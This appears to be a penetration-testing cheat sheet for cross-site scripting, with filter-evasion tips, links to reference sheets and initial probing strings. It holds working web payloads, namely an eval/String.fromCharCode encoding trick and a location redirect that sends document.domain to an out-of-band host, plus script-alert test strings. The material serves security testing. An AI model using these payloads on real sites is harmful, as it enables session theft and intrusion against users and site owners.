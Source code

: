 <br>

## Cheat Sheet

<br>

**Quick Note:**  (To bypass some restrictions the following can help.)

* Use eval() and String.fromCharCode() to encode full payload (Cyber Chef -> To Decimal -> Delimiter set to "Comma" -> Copy/Paste)

  ```javascript
  eval(String.fromCharCode(INSERT_PAYLOAD))
  ```
  
* Use window['document']['location']

  ```javascript
  window['document']['location'] = "https://2q9hxdl2.oastify.com/?test=" + document.domain + "test123"
  ```

<br>

### Cheat Sheets

* https://portswigger.net/web-security/cross-site-scripting/cheat-sheet

* https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection

* https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html

* https://gchq.github.io/CyberChef/


<br>

### Initial Probing

* Submit a test String to all the input fields one at a time and identify the context in which the data is being returned in the responses.  For Stored XSS, we can add the parameter name to the payload.  The below test strings will verify how the application responds to angle brackets, parenthesis, quotation marks, single quotes.

    * **Test Strings:**

```html
<>"'/\`
```
```html
Test123parameterName
```
```html
<u>Test123</u>
```
```html
<script>alert("Test123")</script>
```
```html
<script>alert('Test123')</script>
```
